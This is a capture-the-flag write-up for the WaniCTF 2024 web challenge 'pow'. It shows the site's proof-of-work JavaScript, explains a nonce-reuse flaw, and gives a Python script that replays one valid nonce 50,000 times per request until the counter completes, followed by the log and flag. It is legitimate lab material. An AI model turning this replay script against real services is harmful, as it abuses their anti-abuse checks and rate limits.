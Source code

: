 ```yaml
---
title: "Web: pow (easy)"
date: "2024-06-23"
thumbnail: "/assets/img/thumbnail/wani24.png"
---
```


# Description
---
compute hash to get your flag.

Flag Format: FLAG{...}

# Solution

When we first open the challange we see this
<img src="/assets/img/wani24/capture2.png">
The checking works as a counter and works according to this js script

```js
function hash(input) {
        let result = input;
        for (let i = 0; i < 10; i++) {
          result = CryptoJS.SHA256(result);
        }
        return (result.words[0] & 0xFFFFFF00) === 0;
      }
      async function send(array) {
        document.getElementById("server-response").innerText = await fetch(
          "/api/pow",
          {
            method: "POST",
            headers: {
              "Content-Type": "application/json",
            },
            body: JSON.stringify(array),
          }
        ).then((r) => r.text());
      }
      let i = BigInt(localStorage.getItem("pow_progress") || "0");
      async function main() {
        await send([]);
        async function loop() {
          document.getElementById(
            "client-status"
          ).innerText = `Checking ${i.toString()}...`;
          localStorage.setItem("pow_progress", i.toString());
          for (let j = 0; j < 1000; j++) {
            i++;
            if (hash(i.toString())) {
              await send([i.toString()]);
            }
          }
          requestAnimationFrame(loop);
        }
        loop();
      }
      main();
```

When the counter reaches a number such that (number & 0xFFFFFF00) === 0
The progress increases by one and also this request will be caught by burp
<img src="/assets/img/wani24/capture3.png">
and when we resend the same request the progress increase as we caught one of the desired numbers
we can also make the array contains the same element multiple times and the progress will increase depending on the occurance of the number, but the array had limit about 50000 after that we get `error invalid body`

Note that in case of too many requests we get `Rate limit reached` and status code 429 in this case we should wait.
Let's make a python script that sends the same request 1000000 times to complete the progress and get the flag

```py
import requests
import json
import logging
import time

# Configure logging
logging.basicConfig(
    level=logging.INFO,
    format='%(asctime)s - %(levelname)s - %(message)s',
    handlers=[
        logging.FileHandler("pow_script.log"),
        logging.StreamHandler()
    ]
)

# Constants
URL = "https://web-pow-lz56g6.wanictf.org/api/pow"
COOKIE = "pow_session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzZXNzaW9uSWQiOiJjNWRiNjU1MC1lNTNlLTRiNjUtYTM3NC05MDUzNjk0YmY2YzgifQ.wOrQhP5rjdXj4VsR1IqBe-HqX3aRXYRiNS_Tt2Y05eA"

# Create the payload
payload = ["82738388"] * 50000  # Max i was able to send without getting the error invalid body, must be an array of strings

# Headers
headers = {
    "Host": "web-pow-lz56g6.wanictf.org",
    "Cookie": COOKIE,
    "Sec-Ch-Ua": '"Chromium";v="15", "Not.A/Brand";v="24"',
    "Sec-Ch-Ua-Platform": '"Linux"',
    "Sec-Ch-Ua-Mobile": "?0",
    "User-Agent": "Mozilla/5.0",
    "Content-Type": "application/json",
    "Accept": "*/*",
    "Sec-Fetch-Site": "same-origin",
    "Sec-Fetch-Mode": "cors",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "en-US,en;q=0.9",
    "Priority": "u=1, i"
}

def send_data():
    response = requests.post(URL, headers=headers, data=json.dumps(payload))
    return response

def main():
    while True:
        try:
            response = send_data()
            if response.status_code == 200:
                logging.info(f"Data sent successfully. Server response: {response.text}")
            elif response.status_code == 429:
                logging.warning("Rate limit reached. Waiting for 30 seconds.")
                time.sleep(30)  # Wait for 30 seconds before retrying
            else:
                logging.error(f"Error sending data: {response.status_code} - {response.text}")
        except Exception as e:
            logging.error(f"Exception occurred: {str(e)}")

if __name__ == "__main__":
    main()
```

and here is the output

```
2024-06-23 12:27:29,911 - INFO - Data sent successfully. Server response: progress: 50003 / 1000000
2024-06-23 12:27:33,215 - INFO - Data sent successfully. Server response: progress: 100003 / 1000000
2024-06-23 12:27:44,163 - INFO - Data sent successfully. Server response: progress: 150003 / 1000000
2024-06-23 12:27:47,618 - INFO - Data sent successfully. Server response: progress: 200003 / 1000000
2024-06-23 12:27:54,285 - INFO - Data sent successfully. Server response: progress: 250003 / 1000000
2024-06-23 12:28:01,104 - INFO - Data sent successfully. Server response: progress: 300003 / 1000000
2024-06-23 12:28:06,494 - INFO - Data sent successfully. Server response: progress: 350003 / 1000000
2024-06-23 12:28:10,626 - INFO - Data sent successfully. Server response: progress: 400003 / 1000000
2024-06-23 12:28:20,049 - INFO - Data sent successfully. Server response: progress: 450003 / 1000000
2024-06-23 12:28:26,677 - INFO - Data sent successfully. Server response: progress: 500003 / 1000000
2024-06-23 12:28:33,457 - INFO - Data sent successfully. Server response: progress: 550003 / 1000000
2024-06-23 12:28:38,442 - INFO - Data sent successfully. Server response: progress: 600003 / 1000000
2024-06-23 12:28:46,195 - INFO - Data sent successfully. Server response: progress: 650003 / 1000000
2024-06-23 12:28:52,165 - INFO - Data sent successfully. Server response: progress: 700003 / 1000000
2024-06-23 12:29:00,487 - INFO - Data sent successfully. Server response: progress: 750003 / 1000000
2024-06-23 12:29:05,970 - INFO - Data sent successfully. Server response: progress: 800003 / 1000000
2024-06-23 12:29:10,849 - INFO - Data sent successfully. Server response: progress: 850003 / 1000000
2024-06-23 12:29:16,914 - INFO - Data sent successfully. Server response: progress: 900003 / 1000000
2024-06-23 12:29:22,720 - INFO - Data sent successfully. Server response: progress: 950003 / 1000000
2024-06-23 12:29:24,469 - INFO - Data sent successfully. Server response: FLAG{N0nCE_reusE_i$_FUn}
```

Congratzzzzzzzzzzzzz